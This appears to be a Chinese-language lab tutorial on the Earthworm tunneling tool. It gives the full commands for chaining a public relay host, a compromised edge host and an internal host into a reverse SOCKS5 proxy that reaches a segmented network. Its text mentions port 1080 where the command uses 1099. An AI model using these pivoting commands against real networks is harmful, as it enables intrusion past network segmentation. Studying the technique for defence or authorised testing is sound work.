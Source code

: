 ### Earthworm 使用方法四

> Win7 主机 ip:192.168.192.1 【hack 机】
> 
> Win7 主机 ip:192.168.192.9 【A】
> 
> Win7 主机 ip:192.168.192.10 【公网机】
> 
> Win7 主机 ip:192.168.192.13 【B】

获得目标网络内两台主机 A、B 的权限，情况描述如下：

A 主机： 目标网络的边界主机，无公网 IP，无法访问特定资源。

B 主机： 目标网络内部主机，可访问特定资源，却无法回连公网。

A 主机可直连 B 主机

[](https://xzfile.aliyuncs.com/media/upload/picture/20190913130638-4429b384-d5e4-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190913130638-4429b384-d5e4-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190913130638-4429b384-d5e4-1.png)

1.  在公网机上执行：ew_for_win_32.exe -s lcx_listen -l 1099 -e 8888

意思是：在 192.168.192.10 公网 IP 主机添加转接隧道，将 1080  
收到的代理请求，转交给反连 8888 端口的主机

[](https://xzfile.aliyuncs.com/media/upload/picture/20190913130656-4ecf276a-d5e4-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190913130656-4ecf276a-d5e4-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190913130656-4ecf276a-d5e4-1.png)

1.  在主机 B 上执行：ew_for_win_32.exe -s ssocksd -l 9999

意思是：在 192.168.192.13 【B】主机上利用 ssocksd 方式启动 9999 端口的 socks  
代理

[](https://xzfile.aliyuncs.com/media/upload/picture/20190913130723-5f035304-d5e4-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190913130723-5f035304-d5e4-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190913130723-5f035304-d5e4-1.png)

1.  在主机 A 上执行：ew_for_win_32.exe -s lcx_slave -d 192.168.192.10 -e 8888 -f  
    192.168.192.13 -g 9999

意思是：在 192.168.192.9 上，通过工具的 lcx_slave 方式，打通 192.168.192.10:8888  
和 192.168.192.13:9999 之间的通讯隧道

[](https://xzfile.aliyuncs.com/media/upload/picture/20190913130801-75e95d02-d5e4-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190913130801-75e95d02-d5e4-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190913130801-75e95d02-d5e4-1.png)

1.  HackTools 可通过访问 192.168.192.10:1099 来使用 192.168.192.13 主机提供的  
    socks5 代理

成功截图：

B 的

[](https://xzfile.aliyuncs.com/media/upload/picture/20190913130821-8152e5b4-d5e4-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190913130821-8152e5b4-d5e4-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190913130821-8152e5b4-d5e4-1.png)
